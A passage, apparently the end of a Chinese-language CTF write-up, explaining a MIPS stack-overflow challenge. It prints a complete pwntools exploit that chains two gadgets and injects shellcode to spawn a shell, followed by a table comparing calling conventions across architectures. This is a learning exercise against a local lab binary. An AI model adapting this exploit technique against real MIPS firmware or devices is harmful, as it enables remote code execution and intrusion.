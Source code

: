 ```python
.text:00400A58                 addiu   $sp, 0x80
```

故我们控制栈地址到$s2寄存器的值也是回收之后的栈空间，故这个栈空间就是溢出返回地址之后的栈空间，故我们的gadget是`$sp+0x64`，直接在溢出点后的0x64位置处拼接shellcode即可，故完整exp如下：

```python
from pwn import *
context(arch='mips',endian='big',log_level='debug')
io = process(["qemu-mips","./pwn"])
io.sendlineafter("number:","1")

ra = 0x004273C4 # move sp+0x64 to a2 -> jmp s0
s0 = 0x00421684 # jmp a2                   

payload = '1:'
payload += 'a'*0x6c + p32(s0) + 'a'*0x20 + p32(ra)
payload += 'a'*0x64 + asm(shellcraft.sh())
io.sendlineafter("Job.'",payload)
io.interactive()
```

## 总结

- [ARM架构下的 Pwn 的一般解决思路](https://www.anquanke.com/post/id/199112)
- [固件安全之MIPS架构栈溢出利用技巧](https://www.anquanke.com/post/id/202219)


|          | x86_32(8+2)        | x86_64 (16+2)            | arm32(16+1)              | mips32(32+8)                    |
| -------- | ------------------ | ------------------------ | ------------------------ | ------------------------------- |
| 调用指令 | call               | call                     | b系列指令                | jal bal                         |
| 返回地址 | call将返回地址压栈 | call将返回地址压栈       | bl将返回地址送入lr寄存器 | jal bal 将 +8 地址压入ra（r31） |
| 参数     | 栈                 | rdi rsi rdx rcx r8 r9 栈 | r0-r3,栈                 | a0-a3(r4-r7)                    |
| 返回值   | eax                | rax                      | r0                       | v0-v1(r2-r3)                    |
| 栈       | ebp esp            | rbp rsp                  | fp(r11) sp(r13)          | fp(r13) sp(r29)                 |